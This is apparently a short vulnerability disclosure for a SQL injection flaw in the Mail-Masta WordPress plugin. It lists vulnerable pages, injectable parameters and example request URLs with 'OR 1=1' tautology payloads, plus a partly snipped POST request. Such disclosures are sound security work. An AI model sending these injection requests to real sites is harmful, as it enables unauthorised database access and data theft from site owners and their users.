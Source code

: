 Wordpress Plugin Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php

GET Parameter: list_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires authentication to Wordpress admin)

GET Parameter: filter_list

http://<wordpress>/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1




Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires authentication to Wordpress admin)

POST Parameter: camp_id

http://<wordpress>/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php




Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires authentication to Wordpress admin)

POST Parameter: list_id


POST /wordpress/wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwordpress%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1

